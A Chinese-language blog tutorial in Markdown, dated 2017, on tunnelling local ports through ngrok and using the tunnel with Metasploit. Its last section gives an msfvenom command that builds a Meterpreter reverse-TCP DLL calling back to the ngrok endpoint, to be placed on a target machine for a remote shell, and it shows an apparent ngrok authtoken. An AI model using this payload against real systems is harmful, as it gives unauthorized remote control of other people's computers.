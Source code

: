 ```yaml
---
title: Ngrok加Metasploit实现内网穿透
date: 2017-12-16 12:00:15
tags: 
	- Metasploit
categories:
	- Metasploit
	
---
```



#### 实例讲解
##### 0x00.
`demon`之前发了一篇`Ngrok&MSF`(内网穿)的文章，由于没时间，现在正好有时间过来测试下。

感谢`demon`的耐心教导。
<!--more-->
 
ngrok 是一个反向代理，通过在公共的端点和本地运行的 Web 服务器之间建立一个安全的通道。ngrok 可捕获和分析所有通道上的流量，便于后期分析和重放。

Ngrok的下载地址:[https://ngrok.com/download](https://ngrok.com/download)



下面以我的Kali Linux 为例子，下载ngrok。
![](https://i.imgur.com/t5PHWUU.png)

解压后得出，ngrok包
 
![](https://i.imgur.com/vXLf7Nc.png)
 

##### 0X01.
我选择将ngrok复制到/bin


![](https://i.imgur.com/euXlQ9K.png)

##### 0X02.HTTP


![](https://i.imgur.com/44jOhtG.png)


##### 1.安装你的token

去`ngrok`的官网找到你的`token`

> `ngrok  authtoken  6RBm_2CfWq3xAJ3XVK`



根据官方文档 使用`http`的时候 使用`ngrok http 80`(将本地`80`端口映射到`ngrok`外网)，比如我们本机开启了`80`端口（`apache`）需要映射到外网。
开启`apache`服务` 80`端口

![](https://i.imgur.com/fQ3EUYY.png)

![](https://i.imgur.com/xSyAcEh.png)

本机中的`localhost`

![](https://i.imgur.com/2Ne8Jk5.png)


图中可以看到，已将本机的`80`端口映射到` ngrok.io`中

> `ngrok http 80`

![](https://i.imgur.com/dHDnZh5.png)


我们可以来验证下： `http://xxxx571a.ngrok.io `中是否有映射。

![](https://i.imgur.com/5j32G17.png)

![](https://i.imgur.com/FSzXSD2.png)

##### 0x03 TCP
 
配置完了`Ngrok` 上个试了下`http`，我再来试试`TCP`
 



我们使用 `ngrok` 帮助参数 `tcp`

![](https://i.imgur.com/0yJPBDQ.png)

`ngrok tcp 6666` 将本机的`6666`映射到`ngrok`的外网中。

![](https://i.imgur.com/wbepUhs.png)

</br>
![](https://i.imgur.com/jzaOSIv.png)


##### 0x04 Metasploit


    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=(ip填写对应的ngrok对应的ip或者对应的ngrok对应的域名地址也可以) LPORT=(端口填写对应的ngrok的映射的端口) -f dll > /opt/x.dll


放入目标机子上得到反弹

![](https://i.imgur.com/hmIDtin.png)


